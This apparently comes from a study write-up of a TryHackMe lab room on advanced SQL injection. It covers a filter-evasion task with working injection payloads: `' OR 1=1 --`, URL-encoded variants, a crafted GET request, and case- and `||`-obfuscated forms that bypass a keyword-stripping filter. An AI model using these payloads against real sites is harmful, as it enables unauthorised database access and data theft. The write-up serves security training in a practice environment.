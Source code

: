 # TryHackMe Advanced SQL Injection

{% embed url="https://tryhackme.com/room/advancedsqlinjection" %}



### Task 4: Filter Evasion Techniques

Given the simple SQL query performed on the server:

```sql
SELECT * FROM books WHERE book_name = '[book_name]'
```

We can attempt to trick the system into providing us more information, by injecting the following payload:

```sql
' OR 1=1 --
```

The following code snippet displays a simple SQLi prevention mechanism where the application simply removes a few important keywords:

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Thus, this causes the final SQL command to not work, as the `OR` keyword will be removed. However, it can be easily bypassed by methods such as URL encoding the payload, or obfuscating the keywords.&#x20;



**URL encode**

We can URL encode the following payload using the [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)) tool:

```sql
' || 1=1 --+
```

* `'`: Closes the current value
* `||`: Substitute value for OR
* `1=1`: Always true
* `--`: Comment in SQL, forcing the database to ignore the rest of the query
* `+`: Adds a space after the comment to ensure that it is properly terminated



The URL encoded format is as follows:

```sql
'%20%7C%7C%201=1%20--+
```

To prevent any further issues with the formatting, we can analyze the HTTP request made for the query, and directly insert the payload instead. In this example, a GET request to `/search_books.php?book_name=<payload>` is made for each request.

Thus, we can send a GET request to `/search_books.php?book_name=%27%20%7C%7C%201=1%20--+` to retrieve a list of all books in the table.



**Obfuscating the keywords**

Obfuscation of keywords involves changing around the capitalization of the keywords:

Eg.&#x20;

`OR` -> `oR`, `Or`&#x20;

`OR` -> `||`



The following presents a few payloads we can use to bypass the filter mechanism:

1. `' Or '1=1` -> `SELECT * FROM books WHERE book_name = '' Or '1=1'`

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

2. `' Or 1=1 oR '` -> `SELECT * FROM books WHERE book_name = '' Or 1=1 oR ''`&#x20;
3. `' Or 1=1--` -> `SELECT * FROM books WHERE book_name = '' Or 1=1-- '`&#x20;
   * Take note of the space after the comment (`--`)
4. `' || '1=1`-> `SELECT * FROM books WHERE book_name = '' || '1=1'`
   * Replacing `OR` with `||` works too

